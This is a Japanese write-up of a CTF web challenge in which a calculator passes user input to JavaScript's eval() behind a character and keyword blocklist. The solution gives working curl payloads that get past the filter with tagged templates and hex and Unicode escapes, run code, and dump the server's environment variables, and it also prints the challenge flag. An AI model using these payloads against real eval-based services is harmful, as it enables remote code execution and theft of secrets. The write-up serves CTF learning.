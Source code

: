 # String Calculator:Web:XXXXpts
文字列結合に対応している電卓サイトを作ってみたよ！  
  
サイト → [https://string-calculator.web.cpctf.space/](https://string-calculator.web.cpctf.space/)  
  
ソースコード → [https://files.cpctf.space/string-calculator.zip](string-calculator.zip)  

**Hint1**  
この電卓の計算ロジックは `eval()` 関数で実装されています。`eval()` 関数は、文字列を JavaScript コードとして評価し、実行することができます。これには危険性があり、そのまま使うと計算だけでなくサーバーに好きなコードを実行させることができてしまいます。  

- [eval() - JavaScript | MDN](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/eval)

そのため、この問題では入力に対し一部の記号やキーワードをブロックすることで悪意のあるコードの実行を対策しています。しかし、この対策で悪意のある入力を完全に防げているのでしょうか？  
**Hint2**  
`.` や `[]` がブロックされていてプロパティアクセスができないため、`process.env.FLAG` にアクセスして直接フラグを取得することはできません。  
そこで、`getFlag()` 関数が実行してフラグを取得することを考えましょう。しかし `()` がブロックされているため、`()` を使わずに `getFlag` を呼ぶ必要があります。  
**Hint3 (解法)**  
実は、JavaScript には `()` を使わずに関数を呼ぶ方法として、`new` 演算子やタグ付きテンプレートを使う方法があります。  

- [new 演算子 - JavaScript | MDN](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Operators/new)  
- [タグ付きテンプレート - テンプレートリテラル (テンプレート文字列) - JavaScript | MDN](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Template_literals#%E3%82%BF%E3%82%B0%E4%BB%98%E3%81%8D%E3%83%86%E3%83%B3%E3%83%97%E3%83%AC%E3%83%BC%E3%83%88)  

```js
function func() {
  this.hoge = "HOGE";
  return "FUGA";
}

console.log(new func); // { hoge: 'HOGE' }
console.log(func``); // 'FUGA'
```
この問題の `getFlag()` 関数はフラグを「返す」ため、タグ付きテンプレートを使うことでフラグを取得することができます。

# Solution
アクセスすると、文字列処理もできる計算機という謎のものが動いている。  
![site.png](site/site.png)  
ひとまずブラックボックスで攻略することを目指す。  
以下のように試すと、`console+""`で`"[object console]"`が返ってきたため、おそらくJavaScriptが動いているようだ。  
```bash
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d '1+1'
2
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d 'console+""'
"[object console]"
```
ここからRCEでflag.txtを読むか、/proc/self/environなど環境変数を取得すればよさそうだ。  
JavaScriptでは`process.env`で環境変数が取れるため、実行してみる。  
```bash
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d 'process.env'
Error: Invalid characters in input
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d 'process'
TypeError: Converting circular structure to JSON
    --> starting at object with constructor 'Module'
    |     property 'children' -> object with constructor 'Array'
    |     index 0 -> object with constructor 'Module'
    |     property 'children' -> object with constructor 'Array'
    --- index 0 closes the circle
```
`Invalid characters in input`と怒られる。  
`process`はエラーになるが動くので`.`がブラックリストに入っているのだろう。  
ここで`` Function`console.log(1)``` ``のようにXSSするテクニックを思い出す。  
呼び出す関数はテンプレートリテラルの中なのでHexでのエスケープで`` Function`console\x2Elog(1)``` ``ともできる。  
これを使えば`` Function`return process\x2eenv``` ``のように`.`を回避できそうだ。  
以下のように試してみる。  
```bash
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d 'Function`return process\x2eenv```'
Error: Invalid keywords in input
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d '`return process\x2eenv```'
TypeError: "return process.env" is not a function
```
`Invalid keywords in input`と新たな怒られが発生した。  
どうやらキーワードとして、`Function`も禁止されているらしい。  
ここでさらに、JavaScriptではUnicodeでのエスケープも使えることを思い出す。  
`Function`を`\u0046unction`としてやればよい。  
```bash
$ curl -X POST https://string-calculator.web.cpctf.space/api/calc -d '\u0046unction`return process\x2eenv```'
{"npm_config_user_agent":"pnpm/10.8.0 npm/? node/v23.10.0 linux x64","NODE_VERSION":"23.10.0","HOSTNAME":"a263ceacb404","YARN_VERSION":"1.22.22","npm_node_execpath":"/usr/local/bin/node","SHLVL":"1","HOME":"/root","COREPACK_ROOT":"/usr/local/lib/node_modules/corepack","COREPACK_ENABLE_DOWNLOAD_PROMPT":"1","npm_config_registry":"https://registry.npmjs.org/","npm_config_node_gyp":"/root/.cache/node/corepack/v1/pnpm/10.8.0/dist/node_modules/node-gyp/bin/node-gyp.js","PATH":"/usr/src/app/node_modules/.bin:/root/.cache/node/corepack/v1/pnpm/10.8.0/dist/node-gyp-bin:/usr/src/app/node_modules/.bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","npm_package_name":"string-calculator","NODE":"/usr/local/bin/node","npm_config_frozen_lockfile":"","npm_lifecycle_script":"node server.js","npm_package_version":"1.0.0","npm_lifecycle_event":"start","npm_config_verify_deps_before_run":"false","npm_execpath":"/root/.cache/node/corepack/v1/pnpm/10.8.0/bin/pnpm.cjs","PWD":"/usr/src/app","npm_command":"run-script","PNPM_SCRIPT_SRC_DIR":"/usr/src/app","FLAG":"CPCTF{JavaScr!pt_!s_4n_4wes0me_1anguage}","NODE_ENV":"production","INIT_CWD":"/usr/src/app"}
```
環境変数の中から、flagが得られた。  
ソースを読むと、どうやら`getFlag`なるものがあったらしいが必要なかった。  

## CPCTF{JavaScr!pt_!s_4n_4wes0me_1anguage}